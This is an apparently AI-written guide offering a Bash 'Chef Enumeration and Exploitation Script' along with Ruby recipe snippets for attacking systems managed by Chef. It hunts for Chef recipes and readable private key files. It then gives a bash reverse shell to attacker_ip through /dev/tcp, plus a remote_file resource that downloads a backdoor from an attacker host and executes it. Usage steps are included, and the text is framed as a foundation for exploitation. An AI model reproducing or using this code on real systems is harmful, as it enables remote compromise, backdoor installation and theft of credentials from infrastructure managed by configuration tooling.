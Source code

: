 
Here’s a Bash script that checks if Chef is installed on a Linux server, identifies potential exploit paths, and outlines possible commands for client-side exploitation.

### Chef Enumeration and Exploitation Script

```bash
#!/bin/bash

echo "Starting Chef enumeration..."

# Function to check if Chef is installed
check_chef_installed() {
    if command -v chef-client &> /dev/null; then
        echo "Chef is installed."
    else
        echo "Chef is not installed."
        exit 1
    fi
}

# Function to identify Chef installation paths and files
identify_chef_files() {
    echo "Identifying Chef installation files..."

    # Common Chef paths
    chef_paths=(
        "/etc/chef"
        "/var/chef"
        "/opt/chef"
        "/var/opt/chef"
    )

    for path in "${chef_paths[@]}"; do
        if [ -d "$path" ]; then
            echo "Found Chef directory: $path"
            find "$path" -type f
        fi
    done
}

# Function to check for potential exploit paths
check_exploit_paths() {
    echo "Checking for potential Chef exploit paths..."

    # Check if there are any recipe or cookbook files
    find /etc/chef* /opt/chef* /var/chef* -type f -name "*.rb" -o -name "*.json" 2>/dev/null | while read -r file; do
        echo "Found possible Chef recipe/cookbook: $file"
        grep -Ei "(execute|bash|script|remote_file|package)" "$file"
    done

    # Check for readable keys or certificates
    find /etc/chef* /opt/chef* /var/chef* -type f -name "*.pem" -o -name "*.key" 2>/dev/null | while read -r keyfile; do
        echo "Found key file: $keyfile"
        if [ -r "$keyfile" ]; then
            echo "Key file is readable: $keyfile"
        fi
    done
}

# Function for client-side exploitation
client_side_exploitation() {
    echo "Possible client-side exploits if running Chef client..."

    # Check if chef-client is running
    if pgrep chef-client > /dev/null; then
        echo "Chef client is running."

        # Commands to exploit Chef client from client-side
        echo "To exploit the client and execute commands remotely:"
        echo "Add malicious code to a recipe or cookbook, such as:"
        echo "execute 'reverse_shell' do"
        echo "  command '/bin/bash -c \"bash -i >& /dev/tcp/attacker_ip/attacker_port 0>&1\"'"
        echo "end"
        echo "Then run 'chef-client' to execute the malicious code."
    else
        echo "Chef client is not running."
    fi
}

# Start the enumeration
check_chef_installed
identify_chef_files
check_exploit_paths
client_side_exploitation

echo "Chef enumeration completed."
```

### **Explanation of the Script**

1. **Chef Installation Check:**
   - The script checks if Chef is installed on the system using the `command -v chef-client` command. If Chef is not found, the script exits.

2. **Identify Chef Installation Paths and Files:**
   - The script searches for common Chef directories such as `/etc/chef`, `/var/chef`, `/opt/chef`, and `/var/opt/chef`.
   - It lists files within these directories, which may include recipes, cookbooks, and configuration files.

3. **Check for Exploit Paths:**
   - The script searches for Chef recipe (`*.rb`) and JSON (`*.json`) files, looking for potentially exploitable commands (e.g., `execute`, `bash`, `script`, `remote_file`, `package`).
   - It also checks for readable key files (`*.pem`, `*.key`), which could be leveraged in an attack.

4. **Client-Side Exploitation:**
   - If the Chef client is running, the script provides an example command to exploit the client and execute arbitrary commands on the server via a malicious recipe or cookbook.

### **How to Use the Script**

1. **Copy and Save the Script**: Save the script as `chef_enum.sh` and make it executable with `chmod +x chef_enum.sh`.
2. **Run the Script**: Execute the script with `sudo ./chef_enum.sh` to perform the enumeration and check for potential exploitation paths.
3. **Review the Output**: The script will output details about Chef’s presence, configuration files, potential exploit paths, and possible client-side exploitation commands.

### **Client-Side Exploits to Move to the Server**

If Chef is used in an environment where the server controls configurations on client machines, exploiting the Chef client can allow an attacker to execute commands on the server via crafted recipes or cookbooks.

#### **Example Client-Side Exploits**

1. **Execute Arbitrary Commands:**
   ```ruby
   execute 'reverse_shell' do
     command '/bin/bash -c "bash -i >& /dev/tcp/attacker_ip/attacker_port 0>&1"'
   end
   ```

2. **Abuse Chef Resources:**
   ```ruby
   remote_file '/tmp/backdoor' do
     source 'http://attacker_ip/backdoor.sh'
     mode '0755'
     action :create
   end

   execute 'run_backdoor' do
     command '/tmp/backdoor'
   end
   ```

### **Conclusion**

This script helps identify Chef installations and their potential vulnerabilities, providing a solid foundation for further investigation and exploitation, particularly in environments where Chef is used for automated configuration management.
